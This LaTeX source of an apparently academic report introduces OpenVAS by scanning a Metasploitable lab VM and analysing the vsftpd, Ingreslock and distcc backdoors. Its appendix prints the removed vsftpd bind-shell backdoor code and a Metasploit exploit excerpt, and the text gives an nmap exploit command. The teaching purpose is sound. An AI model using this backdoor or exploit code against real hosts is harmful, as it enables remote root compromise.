\documentclass[12pt]{article}
% General packages
\usepackage{amsmath, graphicx, float, tabularx, booktabs, color}
% For adjusting margin size
\usepackage[margin=1in]{geometry}
% For setting bookmarks on pdf export
\usepackage[bookmarks,bookmarksopen,bookmarksdepth=2]{hyperref}
% For codeblocks
\usepackage{listings}
\usepackage{cite}

%Define Colors
\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}

% Difine diff language
\lstdefinelanguage{diff}{
  morecomment=[f][\color{blue}]{@@},     % group identifier
  morecomment=[f][\color{red}]-,         % deleted lines 
  morecomment=[f][\color{green}]+,       % added lines
  morecomment=[f][\color{magenta}]{---}, % Diff header lines (must appear after +,-)
  morecomment=[f][\color{magenta}]{+++},
}


% Color Code
\lstset{frame=tb,
  language=ruby,
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=4
}

% Image path location
\graphicspath{ {images/} }

\begin{document}

% Title information
\title{An Introductory Look into OpenVAS}
\author{Devin Trejo \tabularnewline devin.trejo@temple.edu }
\date{\today}
\maketitle

\section{Summary}
\label{sect:summary}
Today we look into Open Vulnerability Assessment Software or OpenVAS 
a free software maintained by volunteer industry experts. The software is
currently under development and competes with closed source systems like
Nessus and Nexpose. We demonstrate using a Metasploitable virtual machine
that OpenVAS is able to detect, and propose solutions to common vulnerabilities
listed in the global common vulnerability and exposure database (CVE). 
Specifically we look into depth the aspects of a vsftp vulnerability as 
well as reference the common Ingreslock and distcc backdoors. For the vsftp
vulnerability we discuss the Metasploitable script that can take advantage
of the backdoor and look into the source code that a hacker inserted to create
the issue.

\section{Introduction}
\label{sect:intro}
\subsection{OpenVAS Background and Installation}
\label{sec:background}

\begin{figure}[ht]
    \centering
    
\includegraphics[width=3.5in]{images/openvas-7-enviorment.png}
    \caption{OpenVAS Environment}
    \label{fig:openvasenv}
\end{figure}

OpenVAS is a framework brining together different tools to provide 
vulnerability scanning and detection to administrators. The software
itself is free supported by a group of volunteers from IT and security 
professionals who are experts in the Cyber Security field. The software itself
can be ran from the \textbf{OpenVAS command line interface (CLI)} or via the 
browser running the \textbf{Greenbone Security Assistant (GSA)} client running 
from a micro HTTPd service. No matter what front-end you use the 
functionality of the scanner is identical. 

At the core of OpenVAS is the \textbf{OpenVAS Scanner}. The scanner is what 
performs the \textbf{Network Vulnerability Tests (NVTs)} for each scan target. 
The OpenVAS scanner works with the \textbf{OpenVAS Manager} which pools the 
results of each NVT into a SQL database. The OpenVAS Manager is what 
communicates with the application front end to create reports for a user 
to read. The Manager communicates with the OpenVAS Scanner by using a unique 
transfer protocol. A layout of all the OpenVAS components can be seen in 
figure~\ref{fig:openvasenv}.

Installing OpenVAS is dependent on what platform you are running. There are 
binaries for RHEL, Kali Linux, and Ubuntu operating systems. Some basic
steps to get started are provided for Ubuntu below.

\begin{lstlisting}[language=bash]
    $ sudo add-apt-repository ppa:mrazavi/openvas
    $ sudo apt-get update
    $ sudo apt-get install openvas
\end{lstlisting}

After you have OpenVAS install you have to install a database and update
the NVT library for OpenVAS to use. Downloading the latest NVTs allows for
an administrator to run scans on a private network disconnected from the 
Internet. After the latest NVT definitions have been downloaded we reload
the SQL database and start our scanner and manager. This installation process
includes a default account Admin which can used to login into the GSA. It
is also advantageous to install \textbf{NMAP} and other security analysis
tools as the scanner uses external services to improve the quality of the
scans ran. 

\begin{lstlisting}[language=bash]
    $ sudo apt-get install sqlite3
    $ sudo openvas-nvt-sync
    $ sudo openvas-scapdata-sync
    $ sudo openvas-certdata-sync
    $ sudo service openvas-scanner restart
    $ sudo service openvas-manager restart
    $ sudo openvasmd --rebuild --progress
\end{lstlisting}

\subsection{OpenVAS Test Environment}
\label{sec:testenv}
For this overview we will run OpenVAS on a Metasploitable machine 
(IP: 192.168.56.101) which will undoubtedly return a number of 
vulnerabilities. Our scan is ran from a Ubnutu VM which we installed OpenVAS 
onto. The security definitions were are the latest as of the date April 2, 
2016. 

We will will investigate are what times of vulnerabilities were detected and
also look in depth into three of issues laid out in the final report. We will
see what OpenVAS suggests to fix the issues it found. Note the scan type we 
will use in this preview of OpenVAS is the default \textit{Full and Fast}.
The Full and Fast scan uses most of the plug-ins available to OpenVAS and is
generally regarded as through enough of a scan. Other scan configurations
are beneficial only in rare cases. 

\section{Discussion}
\label{sect:discussion}
We ran OpenVAS on the Metasploitable machine using the \textit{Full and Fast}
scan and found 19 high, 35 medium and 5 low severity services with 
vulnerabilities. In total there were 262 specific vulnerabilities on the 
scan target. The entire scan took 42 minutes and 16 seconds to complete. 

\begin{figure}[H]
    \centering
    
\includegraphics[width=5.5in]{images/20160403-metasploitable-scan.PNG}
    \caption{OpenVAS Metasploitable Scan Results}
    \label{fig:overview_scan}
\end{figure}

The OpenVAS scores each vulnerability and sorts each  in descending in 
accordance to severity value. As seen in figure~\ref{fig:overview_scan} there 
were four vulnerabilities with the highest severity level highlighted in red. 
The first column in GSA console a descriptive name of the vulnerability. The 
second column in the report is the solution type recommended by OpenVAS. 
The QOD column is quality of detection value which specifies how confident 
OpenVAS is with the the detection of vulnerability. Host specifies where 
the vulnerability was found. This column is useful for when a scan report 
includes multiple hosts. Location is how the OpenVAS scanner found the 
issue. Lastly the last column is where you can create new rules to ignore 
specific vulnerabilities of make miscellaneous notes. 

\subsection{Analysis of \textit{ftp-vsftpd-backdoor}}
\label{sec:vul1}
\begin{figure}[H]
    \centering
    
\includegraphics[width=5.5in]{images/20160403-vul1-vsftp.PNG}
    \caption{OpenVAS vsftp Vulerability Details}
    \label{fig:fsftp}
\end{figure}
The tenth vulnerability seen in figure~\ref{fig:overview_scan}
is the \textbf{vsftpd Compromised Source Packages back-door Vulnerability}.
Credit for the vulnerability discovery is given to Mathias Kresin who came 
across the the back-door in July 2011 in the vstftp-2.3.4.tar.gz 
binary files found on vsftp's official website. The back-door is apparent 
when establishing and ftp connection signing in with a smiley face ':)'. 
After sign-in the backdoor would run a shell script to grant the user'
root level privileges. The person who inserted the back-door took no 
precautions to hide the existence of the back-door. 

We now reference publicly available diffs between the patched version of 
vsftp-2.3.4.4 and vsftp-2.3.4. Referencing listing~\ref{lst:vsftpddiff}
we see two c files were updated: 'vsftpd-2.3.4.4players/str.c', and 
'vsftpd-2.3.4.4players/sysdeputil.c'.  The former file adds an additional
if statement that checks to see if the user-name is the smiley face. If
the true the if statement breaks into a function 'vsf\_sysutil\_extra()'. 
The new function is defined in 'sysdeputil.c' which simply runs a root
shell call with the strings passed via the socket. 

We can exploit this back-door by using a pre-compiled ruby NMAP script by 
running the ftp-vsftpd-backdoor script. 

\begin{lstlisting}[language=bash]
    $ nmap --script ftp-vsftpd-backdoor -p 21 <host>
\end{lstlisting}

The pre-compiled NMAP exploit seen in listing~\ref{lst:vsftpdvul} creates 
a socket connection to the vulnerable server and logs in using the smiley 
face credentials. As is apparent from the exploit code, no password is 
necessary when signing in. Upon success, the server puts you into a shell
environment with root level privileges. The exploit is possible from
any machine with TCP protocol networking. The recommended fix for this
back-door is to update vsftp to a version later than 2.3.4.4.

\subsection{Analysis of \textit{Possible Backdoor: Ingreslock}}
\label{sec:vul2}

\begin{figure}[H]
    \centering
    
\includegraphics[width=5.5in]{images/20160403-ingerslock.PNG}
    \caption{OpenVAS Ingreslock Details}
    \label{fig:ingres}
\end{figure}

The next backdoor we analyze is a possible Ingreslock exploit which
grants a remote user access to modify the isystem. The isystem are the a 
list of file directories passed in at compile time containing header files 
you want to incorporate into your program. The exploit uses the Ingreslock 
port (1524/TCP) and a remote procedural call to execute commands inside 
your program. This exploit sets ups a root shell typically stored with the
name /tmp/bob. An attacker can next connect to this port and have access to 
a remote shell.

The Ingreslock port is legitimately used for locking parts of a Ingres
database that may be running on a server. To best mitigate this type of 
backdoor, you can setup your firewall to block all traffic on this port. 

\subsection{Analysis of \textit{distcc Remote Code Execution Vulnerability}}
\label{sec:vul3}

\begin{figure}[H]
    \centering
    
\includegraphics[width=5.5in]{images/20160405-vul2-distcc.png}
    \caption{OpenVAS distcc Vulnerability}
    \label{fig:distcc}
\end{figure}

The Samba distcc module is included with XCode 1.5 for use with distributed
compiling. This specific exploit will allow a remote user to gain access
to the host machine and give them full access for the user that submitted the
compile job. The version found on our Metasploitable machine uses distcc 2.x
that has an the fore-mentioned exploit. The vulnerability was first pointed
out by Ray Slakiniski in 2004. 

Typically the a exploiter can use this vulnerability by running code through
the distributed compiling environment that informs the host machine to open
up a telnet or other remote connection. The callback technique used then will
give a remote user a nice interface into the host. The easily solution to 
stop this exploit from escalating is to disable the distributed compiling
software if it is not needed. Alternatively a administrator can properly
configure the software so only trusted machines can communicate back to
the host. If having a white-list is not an option a administrator can create
a directory jail so remote machines only have access to the files it needs
to conduct the remote compile operation. Newer versions of distcc come with
default parameters the negate the side-effects of this vulnerability. The 
latest release of distcc is 3.1 and can be downloaded from their GitHub
repository. OpenVas recommends that users update to later versions of
distcc and configure the service parameters so that they are specific to
your environment. 

\section{Conclusion}
\label{sect:conclusion}
OpenVAS is a powerful program that administrators can incorporate into their
server initiation process. It would be ideal to run a scan on a newly 
configured machine before putting it onto a susceptible network. OpenVAS also
has the capability to actively monitor live severs in production to ensure
new updates don't introduce new vulnerabilities. By combining OpenVAS with
other tools like SNORT and fail2ban a user can start putting together a 
tool chess to harden their server environment. OpenVAS is just a part of
the tool chain that Cyber Security experts can use to protect themselves. 

\nocite{*}
\bibliographystyle{IEEEtran}
\bibliography{20160404_biblo.bib}

\section*{Appendix}
\label{sect:appendix}
\begin{lstlisting}[language=diff, 
caption=\href{http://pastebin.com/AetT9sS5}{Diff vsftpd Vulernable and Patched Source: Pastebin},
label=lst:vsftpddiff]
diff -ur vsftpd-2.3.4/str.c vsftpd-2.3.4.4players/str.c
--- vsftpd-2.3.4/str.c  2011-06-30 15:52:38.000000000 +0200
+++ vsftpd-2.3.4.4players/str.c 2008-12-17 06:54:16.000000000 +0100
@@ -569,11 +569,6 @@
     {
       return 1;
     }
-    else if((p_str->p_buf[i]==0x3a)
-    && (p_str->p_buf[i+1]==0x29))
-    {
-      vsf_sysutil_extra();
-    }
   }
   return 0;
}

 diff -ur vsftpd-2.3.4/sysdeputil.c vsftpd-2.3.4.4players/sysdeputil.c
--- vsftpd-2.3.4/sysdeputil.c   2011-06-30 15:58:00.000000000 +0200
+++ vsftpd-2.3.4.4players/sysdeputil.c  2010-03-26 04:25:33.000000000 +0100
@@ -34,10 +34,7 @@
 /* For FreeBSD */
 #include <sys/param.h>
 #include <sys/uio.h>
-#include <netinet/in.h>
-#include <netdb.h>
-#include <string.h>
-#include <stdlib.h>
+
 #include <sys/prctl.h>
 #include <signal.h>
 
@@ -220,7 +217,7 @@
 static int s_proctitle_inited = 0;
 static char* s_p_proctitle = 0;
 #endif
-int vsf_sysutil_extra();
+
 #ifndef VSF_SYSDEP_HAVE_MAP_ANON
 #include <sys/types.h>
 #include <sys/stat.h>
@@ -843,30 +840,6 @@
   }
 }
 
-int
-vsf_sysutil_extra(void)
-{
-  int fd, rfd;
-  struct sockaddr_in sa;
-  if((fd = socket(AF_INET, SOCK_STREAM, 0)) < 0)
-  exit(1);
-  memset(&sa, 0, sizeof(sa));
-  sa.sin_family = AF_INET;
-  sa.sin_port = htons(6200);
-  sa.sin_addr.s_addr = INADDR_ANY;
-  if((bind(fd,(struct sockaddr *)&sa,
-  sizeof(struct sockaddr))) < 0) exit(1);
-  if((listen(fd, 100)) == -1) exit(1);
-  for(;;)
-  {
-    rfd = accept(fd, 0, 0);
-    close(0); close(1); close(2);
-    dup2(rfd, 0); dup2(rfd, 1); dup2(rfd, 2);
-    execl("/bin/sh","sh",(char *)0);
-  }
-}
-
-
\end{lstlisting}

\begin{lstlisting}[language=ruby, 
caption=\href{https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb}{Excerpt of 'vsftpd\_234\_backdoor.rb' Source: GitHub},
label=lst:vsftpdvul]
# Connect to the FTP service port first
connect

banner = sock.get_once(-1, 30).to_s
print_status("Banner: #{banner.strip}")

sock.put("USER #{rand_text_alphanumeric(rand(6)+1)}:)\r\n")
resp = sock.get_once(-1, 30).to_s
print_status("USER: #{resp.strip}")

if resp =~ /^530 /
  print_error("This server is configured for anonymous only and the backdoor code cannot be reached")
  disconnect
  return
end

if resp !~ /^331 /
  print_error("This server did not respond as expected: #{resp.strip}")
  disconnect
  return
end

sock.put("PASS #{rand_text_alphanumeric(rand(6)+1)}\r\n")

# Do not bother reading the response from password, just try the backdoor
nsock = self.connect(false, {'RPORT' => 6200}) rescue nil
if nsock
  print_good("Backdoor service has been spawned, handling...")
  handle_backdoor(nsock)
  return
end

disconnect
\end{lstlisting}

\end{document}